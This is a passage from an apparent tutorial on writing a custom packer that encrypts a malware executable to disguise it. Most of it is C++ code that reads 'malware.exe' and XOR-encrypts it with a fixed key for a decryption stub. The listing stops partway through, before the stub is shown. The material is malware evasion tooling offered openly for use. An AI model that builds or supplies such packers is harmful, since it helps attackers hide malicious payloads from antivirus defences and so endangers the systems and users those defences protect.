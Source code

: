 #### Creating a Custom Packer
A custom packer is a small executable program that wraps around the original malware binary. It performs the following tasks:
1. Reads the original malware (the payload).
2. Compresses or encrypts the payload.
3. Writes a new file that consists of:
   - A decompression/decryption stub.
   - The packed/encrypted malware payload.

The stub is the first code to execute and is responsible for decompressing or decrypting the payload and running it.

#### Example: Custom Packer Using XOR Encryption in C++
Let's go through an example where you build a simple custom packer using XOR encryption to encrypt the original malware's payload.

1. Step 1: Define the XOR encryption function
We’ll write a simple function that uses XOR to encrypt the payload. The same function can be used for both encryption and decryption (as XOR is symmetric).

```cpp
void xorEncryptDecrypt(char* data, size_t dataSize, const char* key, size_t keySize) {
    for (size_t i = 0; i < dataSize; ++i) {
        data[i] ^= key[i % keySize]; // XOR with the key
    }
}
```

2. Step 2: Packing the Payload
Now, we'll build a simple packer that:
   - Opens the original payload file (malware).
   - Reads the content of the file.
   - Encrypts it using XOR.
   - Writes the encrypted content along with a decryption stub into a new executable.

```cpp
#include <iostream>
#include <fstream>

// XOR encryption function
void xorEncryptDecrypt(char* data, size_t dataSize, const char* key, size_t keySize) {
    for (size_t i = 0; i < dataSize; ++i) {
        data[i] ^= key[i % keySize]; // XOR with the key
    }
}

int main() {
    const char* key = "simplekey"; // XOR key for encryption/decryption

    // Step 1: Open the original payload (malware executable)
    std::ifstream payloadFile("malware.exe", std::ios::binary);
    if (!payloadFile) {
        std::cerr << "Failed to open the original malware file." << std::endl;
        return 1;
    }

    // Step 2: Read the payload content
    payloadFile.seekg(0, std::ios::end);
    size_t payloadSize = payloadFile.tellg();
    payloadFile.seekg(0, std::ios::beg);
    char* payloadData = new char[payloadSize];
    payloadFile.read(payloadData, payloadSize);
    payloadFile.close();

    // Step 3: Encrypt the payload
    xorEncryptDecrypt(payloadData, payloadSize, key, strlen(key));
```